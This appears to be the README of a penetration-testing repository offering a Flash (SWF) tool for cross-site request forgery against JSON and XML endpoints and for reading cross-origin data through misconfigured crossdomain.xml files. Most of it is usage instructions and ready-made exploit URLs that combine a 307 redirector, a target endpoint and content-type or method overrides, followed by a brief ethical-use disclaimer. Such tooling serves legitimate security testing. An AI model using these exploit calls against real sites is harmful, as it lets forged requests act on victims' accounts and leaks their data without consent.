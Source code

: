 ## Purpose
This repository was created to simplify the SWF-based JSON CSRF exploitation. It should work also with XML (and any other) data using optional parameters. Also it can be used for easy exploitation of crossdomain.xml misconfiguration (no need to compile .swf for each case).

## Instructions
The .swf file take 3 required and 2 optional parameters:
1) **jsonData** - apparently, JSON Data:) Can be other type of data, if optional `ct` param specified.
2) **php_url** - URL of the 307 redirector php file.
3) **endpoint** - target endpoint, which is vulnerable to CSRF.
4) **ct** (optional) - specify your own Content-Type. Without this parameter it will be `application/json`
5) **reqmethod** (optional) - specify your own request method. Without this parameter it will be `POST`

Place test.swf and test.php on your host, then simply call the SWF file with the correct parameters.

**(As mentioned by [@ziyaxanalbeniz](https://twitter.com/ziyaxanalbeniz)) - we actually don't need crossdomain.xml from this repo, if test.php and test.swf are on same domain). Place it on your host if you also testing locally or across different domains.**

Example call:
```
http[s]://[yourhost-and-path]/test.swf?jsonData=[yourJSON]&php_url=http[s]://[yourhost-and-path]/test.php&endpoint=http[s]://[targethost-and-endpoint]
```
e.g.
https://example.com/test.swf?jsonData={"test":1}&php_url=https://example.com/test.php&endpoint=https://sometargethost.com/endpoint

Using HTML wrapper (read.html) with test.swf, parameters are same:
https://example.com/read.html?jsonData={"test":1}&php_url=https://example.com/test.php&endpoint=https://sometargethost.com/endpoint
In case your target has crossdomain.xml misconfigured, or allowing your domain, you will also get the response using this wrapper. In this case you can use wrapper without 307 redirect (no need of `php_url` parameter).
This is useful for Chrome >=62, where you can't access SWF directly, or if you want to exploit insecure crossdomain.xml. Note: if you are exploiting insecure crossdomain.xml, if the target site uses `https`, your origin should also use https for successful response reading.

If you have the questions regarding this repository - ping me in the Twitter: [@h1_sp1d3r](https://twitter.com/h1_sp1d3r)

## Example cases
1) Exploit JSON CSRF, POST-based, 307 redirect:
```
https://example.com/test.swf?jsonData={"test":1}&php_url=https://example.com/test.php&endpoint=https://sometargethost.com/endpoint
```
or, using HTML wrapper:
```
https://example.com/read.html?jsonData={"test":1}&php_url=https://example.com/test.php&endpoint=https://sometargethost.com/endpoint
```
2) Exploit XML CSRF, POST-based, 307 redirect:
```
https://example.com/test.swf?jsonData=[xmldada]&php_url=https://example.com/test.php&endpoint=https://sometargethost.com/endpoint&ct=application/xml
```
3) Exploit insecure crossdomain.xml (read data from target), GET-based, no redirect:
```
https://example.com/read.html?jsonData=&endpoint=https://sometargethost.com/endpoint&reqmethod=GET
```
4) Exploit insecure crossdomain.xml (read data from target), POST-based, any content-type supported, no redirect:
```
https://example.com/read.html?jsonData=somedata&endpoint=https://sometargethost.com/endpoint&ct=text/html
```

## Cross Browser Testing

This project is tested on following browsers as follows:

![1x](https://user-images.githubusercontent.com/24297694/31861974-dd74a5ce-b73e-11e7-8546-49e1fa29e991.JPG)

Notes: ✓ - Works, X - doesn't work


## Thanks
Special thanks to the [@emgeekboy](https://twitter.com/emgeekboy), who inspired me to make this repository and most functionality, and [@hivarekarpranav](https://twitter.com/hivarekarpranav), who did the cross-browser and request methods research.
Related blog posts about this: 
* http://www.geekboy.ninja/blog/exploiting-json-cross-site-request-forgery-csrf-using-flash/
* http://research.rootme.in/forging-content-type-header-with-flash/
* http://resources.infosecinstitute.com/bypassing-csrf-protections-fun-profit/#gref
* https://medium.com/@know.0nix/bypassing-crossdomain-policy-and-hit-hundreds-of-top-alexa-sites-af1944f6bbf5 - thanks to the [@knowledge_2014](https://twitter.com/knowledge_2014), who inspired me to implement the response reading component


## Disclaimer
This repository is made for educational and ethical testing purposes only. Usage for attacking targets without prior mutual consent is illegal.
By using this testing tool you accept the fact that any damage (dataleak, system compromise, etc.) caused by the use of this tool is your responsibility.

## FAQ
1. Can we read response from server?

 Answer: no. Because of SOP. Still, if crossdomain.xml on the target host exist, and misconfigured - in this case yes.
 
2. Does it work with requests other than GET/POST?

 Answer: no.
 
3. Does it possible to craft custom headers like X-Requested-With, Origin or Referrer?

 Answer: no (it was possible in the past, but not now).

## Update
Starting with Chrome 62, direct link to SWF file may not work. If this behavior happens, use HTML wrapper.

01.01.2018 - added HTML wrapper (`read.html`, should be used with `test.swf`) for better experience with Chrome. Usage and parameters are same as in case with test.swf. It supports also insecure crossdomain.xml exploitation (able to show the response from the target endpoint).

## Commits, PRs and bug reports are welcome!
